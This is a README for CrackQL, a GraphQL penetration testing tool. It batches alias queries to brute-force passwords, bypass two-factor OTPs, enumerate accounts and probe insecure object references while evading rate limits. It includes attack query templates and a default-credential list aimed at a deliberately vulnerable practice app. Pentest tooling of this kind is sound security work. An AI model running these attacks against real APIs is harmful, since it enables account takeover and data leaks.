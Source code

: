 CrackQL
=======
CrackQL is a GraphQL password brute-force and fuzzing utility.

<h1 align="center">
	<img src="https://github.com/nicholasaleks/CrackQL/blob/master/static/CrackQL-Banner.png?raw=true" alt="CrackQL"/>
	<br>
</h1>

CrackQL is a versatile GraphQL penetration testing tool that exploits poor rate-limit and cost analysis controls to brute-force credentials and fuzz operations.

## How it works?

CrackQL works by automatically batching a single GraphQL query or mutation into several alias operations. It determines the number of aliases to use based on the CSV input variables. After programmatically generating the batched GraphQL document, CrackQL then batches and sends the payload(s) to the target GraphQL API and parses the results and errors.

## Defense Evasion

Unlike [Burp Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder) which sends a request for each unique payload, CrackQL evades traditional API HTTP rate-limit monitoring defenses by using multiple alias queries to stuff large sets of credentials into single HTTP requests. To bypass query cost analysis defenses, CrackQL can be optimized into using a series of smaller batched operations (`-b`) as well as a time delay (`-D`).

## Attack Use Cases

CrackQL can be used for a wide range of GraphQL attacks since it programmatically generates payloads based on a list of dynamic inputs.

### Password Spraying Brute-forcing

CrackQL is perfect against GraphQL deployments that leverage in-band GraphQL authentication operations (such as the [GraphQL Authentication Module](https://www.graphql-modules.com/docs#authentication-module)). The below password spraying example works against [DVGA](https://github.com/dolevf/Damn-Vulnerable-GraphQL-Application) with the `sample-inputs/users-and-passwords.csv` dictionary.

*sample-queries/login.graphql*
<pre>
mutation {
  login(username: <b>{{username|str}}</b>, password: <b>{{password|str}}</b>) {
    accessToken
  }
}
</pre>

### Two-factor Authentication OTP Bypass

It is possible to use CrackQL to bypass two-factor authentication by sending all OTP (One Time Password) tokens

*sample-queries/otp-bypass.graphql*
<pre>
mutation {
  twoFactor(otp: <b>{{otp|int}}</b>) {
    accessToken
  }
}
</pre>

### User Account Enumeration

CrackQL can also be used for enumeration attacks to discover valid user ids, usernames and email addresses

*sample-queries/enumeration.graphql*
<pre>
query {
  signup(email: <b>{{email|str}}</b>, password: <b>{{password|str}}</b>) {
    user {
      email
    }
  }
}
</pre>

### Insecure Direct Object Reference

CrackQL could be used to iterate over a large number of potential unique identifiers in order to leak object information

*sample-queries/idor.graphql*
<pre>
query {
  profile(uuid: <b>{{uuid|int}}</b>) {
    name
    email
    picture
  }
}
</pre>

### General Fuzzing

CrackQL can be used for general input fuzzing operations, such as sending potential SQLi and XSS payloads.

## Inputs

CrackQL will generate payloads based on input variables defined by a CSV file. CrackQL requires the CSV header to match the input name.

*sample-inputs/usernames_and_passwords.csv*
<pre>
<b>username</b>, <b>password</b>
admin, admin
admin, password
admin, pass
admin, pass123
admin, password123
operator, operator
operator, password
operator, pass
operator, pass123
operator, password123
</pre>

#### Valid input types
- `str`
- `int`
- `float`

## Installation

### Requirements
- Python3
- Requests
- GraphQL

### Clone Repository
`git clone git@github.com:nicholasaleks/CrackQL.git`


### Get Dependencies
`pip install -r requirements.txt`

### Run CrackQL
`python3 CrackQL.py -h`

```
Usage: python3 CrackQL.py -t http://example.com/graphql -q login.graphql -i usernames-and-passwords.csv

Options:
  -h, --help            Show this help message and exit
  -t URL, --target=URL  Target url with a path to the GraphQL endpoint
  -q QUERY, --query=QUERY  Input query or mutation operation with variable payload markers
  -i INPUTS_CSV, --input=INPUTS_CSV
                        Path to a csv list of arguments (i.e. usernames, emails, ids, passwords, otp_tokens, etc.)
  -d DELIMITER, --delimiter=DELIMITER  CSV input delimiter (default: ",")
  -o OUTPUT_JSON, --output-json=OUTPUT_JSON
                        Output results to a JSON file (default: results/[url]-[timestamp].json)
  -b BATCH_SIZE, --batch-size=BATCH_SIZE
                        Number of batch operations per GraphQL document request (default: 100)
  -a ALIAS_NAME, --alias-name=ALIAS_NAME
  -D DELAY, --delay=DELAY  Time delay in seconds between batch requests (default: 0)
  -v, --version         Print out the current version and exit.
```

## Maintainers
* [Nick Aleks](https://github.com/nicholasaleks)
* [Dolev Farhi](https://github.com/dolevf)
